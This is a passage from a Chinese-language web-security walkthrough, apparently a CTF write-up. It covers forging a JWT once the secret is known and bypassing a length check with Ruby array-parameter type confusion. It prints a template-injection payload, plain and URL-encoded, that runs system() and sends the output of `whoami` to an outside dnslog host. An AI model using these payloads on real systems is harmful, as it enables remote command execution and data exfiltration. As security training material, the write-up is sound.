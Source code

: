 ![image-20211213190137194](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3a1b5be31a2839a1c034022aadcbf7b0839c0942.png)

拿到secret，然后用jwt编码后替换auth

![image-20211213185616585](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c989bdd0f0b1b25490a48b1e51291ab9781599ed.png)

点击购买

![image-20211213190035153](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-966541da20a457e2b7d7f8a780f217bdc310a792.png)

![image-20211213190115145](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-74d027c07a0e4942adcc492d83de5558d436ccab.png)

##### 利用HTTP参数传递类型差异

下面是另一种做法，利用HTTP参数传递类型差异的问题。url传参可以传入非字符串以外的其他数据类型，比如数组从而绕过一些程序逻辑

```ruby
$a = "mon123"
$b = Array["aaa","bbb","ccc"]
puts "$a: #{$a[0,3]}"
puts "$b: #{$b[0,3]}"
```

![image-20211213191203913](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-eab88117c36723c1f692f609fb1bc3092f8a9902.png)

这里，$b原本是数组，但是因为被拼接到了字符串中，所以数组默认的类型变成了`["aaa", "bbb", "ccc"]`,这样上面代码的限制，从原本的7个字符，变成了7个数组长度

payload：

```php
/work?name[]=<%=system('ping -c 1 `whoami`.xuu1g4.dnslog.cn')%>&name[]=1&name[]=2&name[]=3&name[]=4&name[]=5&name[]=6&do=["<%=system('ping -c 1 `whoami`.xuu1g4.dnslog.cn')%>", "1", "2", "3", "4", "5", "6"] is working
```

url编码一下

```php
/work?name[]=%3C%25%3Dsystem(%27ping%20-c%201%20%60whoami%60.xuu1g4.dnslog.cn%27)%25%3E&name[]=1&name[]=2&name[]=3&name[]=4&name[]=5&name[]=6&do=%5B%22%3C%25%3Dsystem(%27ping%20-c%201%20%60whoami%60.xuu1g4.dnslog.cn%27)%25%3E%22%2C%20%221%22%2C%20%222%22%2C%20%223%22%2C%20%224%22%2C%20%225%22%2C%20%226%22%5D%20is%20working
```

实现了任意命令执行

![image-20211213194924684](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f3e2f1e57c28cf7fc9ca5d1f855702cd48ea3dd8.png)